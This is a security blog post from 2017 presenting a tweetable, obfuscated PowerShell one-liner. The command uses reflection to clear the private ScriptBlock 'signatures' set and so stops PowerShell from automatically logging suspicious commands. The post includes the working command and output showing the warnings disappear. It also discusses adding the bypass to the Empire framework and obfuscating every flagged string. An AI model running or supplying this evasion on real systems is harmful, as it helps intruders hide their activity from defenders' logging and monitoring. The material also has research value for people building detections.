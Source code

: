 ```yaml
---
layout: post
title: "Bypass for PowerShell ScriptBlock Warning Logging of Suspicious Commands"
date: 2017-5-02 00:00:01 -0600
tags: PowerShell
---
```


## tl;dr

PowerShell 5.0+ automatically logs Warning level ScriptBlock EventLogs when executing "suspicious" commands commonly associated with malware, *even if ScriptBlock logging is not enabled*. This is a one-line bypass of that logging capability: (*note: there are limitations, please see the end of this post for more details*)

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

## Details

This bypass may look familiar to you. It was inspired by Matt Graeber's tweetable, one-line AMSI bypass:

![AMSI Bypass]({{site.baseurl}}/assets/images/graeber-amsi-bypass.png)

I figured his method of using reflection to interact with the AmsiUtils class and alter nonpublic, static fields could probably be applied in other nefarious ways. I've been down in a rabbithole of PowerShell obfuscation and ScriptBlock logging lately, and just recently discovered that PowerShell 5.0+ automatically logs "suspicious" commands commonly associated with malware to ScriptBlock logs with a **warning level** (even if ScriptBlock logging is not enabled!). This is a great source of evidence for defenders, so naturally I wanted to try to break it!

Digging through the open-source PowerShell 6.0 GitHub page, what I found is that PowerShell defines a list of strings that are considered "suspicious" and does some string matching to see if a given ScriptBlock contains any of them.

![Suspicious Strings]({{site.baseurl}}/assets/images/suspicious-strings.png)

[Check out the code yourself!](https://github.com/PowerShell/PowerShell/blob/v6.0.0-alpha.18/src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs#L1612-L1660)

Let's see if we can find a similar field in PowerShell 5! Using reflection, let's get a list of the nonpublic, static fields defined in the ScriptBlock class:
```
PS> [ScriptBlock].GetFields('NonPublic,Static')


Name                    : signatures
MetadataToken           : 67114066
FieldHandle             : System.RuntimeFieldHandle
Attributes              : Private, Static
FieldType               : System.Collections.Generic.HashSet`1[System.String]
MemberType              : Field
ReflectedType           : System.Management.Automation.ScriptBlock
DeclaringType           : System.Management.Automation.ScriptBlock
Module                  : System.Management.Automation.dll
IsPublic                : False
IsPrivate               : True
IsFamily                : False
IsAssembly              : False
IsFamilyAndAssembly     : False
IsFamilyOrAssembly      : False
IsStatic                : True
IsInitOnly              : False
IsLiteral               : False
IsNotSerialized         : False
IsSpecialName           : False
IsPinvokeImpl           : False
IsSecurityCritical      : True
IsSecuritySafeCritical  : False
IsSecurityTransparent   : False
CustomAttributes        : {}

...
(output truncated for brevity, you will see other fields)
```

This appears to be the field we are after. You'll notice the `Attribute` property is `Private, Static`. What we learned from Matt's AMSI bypass is that we can alter these private *static* fields using reflection! First, let's test if we can just grab that `signatures` value and see what's inside:

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null) | Select -First 10
Add-Type
DllImport
DefineDynamicAssembly
DefineDynamicModule
DefineType
DefineConstructor
CreateType
DefineLiteral
DefineEnum
DefineField
```

Great, we have confirmed that we are able to successfully grab the `signatures` field and we can see all the "suspicious" strings PowerShell is looking for. Now we just need to alter this value to a value we would prefer. How about an empty set?

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null)
PS> 
```

It worked! Just one small problem...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

```

**:(**

You may have noticed in that original list of signatures both `GetField` and `NonPublic` are flagged as suspicious. This is getting logged to a ScriptBlock warning level log **before** our bypass takes effect. If only I knew a tool that makes string matching PowerShell code difficult...

I actually ended up obfuscating this by hand, but I took obfuscation principles learned from [Invoke-Obfuscation](https;//github.com/danielbohannon/Invoke-Obfuscation) and put them to work on these two signatures to get the final result.

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

And for completeness...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :
```

And the final character count is 126 characters, so it is tweetable :)

![Warning Log Bypass]({{site.baseurl}}/assets/images/warning-log-bypass-tweet.png)

## One Last Problem To Solve

So this all works great when using it at an interactive PowerShell prompt, the problem comes when trying to script it. My first thought was to throw this into Empire to test how effective it was. There are 2 main problems: One, if the one-liner bypass gets bundled with other code by PowerShell into a larger ScriptBlock, that code following the bypass could be found to be "suspicious" prior to the bypass taking effect. This is because the code is checked for suspicious strings prior to execution of the *entire* ScriptBlock *including the bypass*. Two, Empire creates a new PowerShell runspace for each module that is executed. When new runspaces are created, the runspace gets a newly initialized `signatures` variable that will catch strings in the given module. A way to combat this would be to prepend all modules with the bypass, but then again we run into problem #1 with code getting bundled with the bypass into a single ScriptBlock and still being scanned prior to execution of the bypass.

Given the flexibility of PowerShell in general, and my relatively little experience with the language, I'm sure there must be some solution to this problem. So this will serve as a **call for help to all you PowerShell wizards out there! :)**

## More Ideas

After using obfuscation to avoid Warning level logs for `GetField` and `NonPublic`, I realized this concept could probably be applied to *all* of the suspicious strings PowerShell is looking for. I think it would be fun to script this, and we could avoid Warning level logs even if this bypass is ever fixed (considering Matt's AMSI bypass still works a year later, this is doubtful to come soon) or no solution is found to the last problem I am facing in scripting the bypass. I will try to write a script to automate obfuscation for this, and post it when complete.

Also, it seems likely that using reflection to alter nonpublic fields has the potential for more abuse!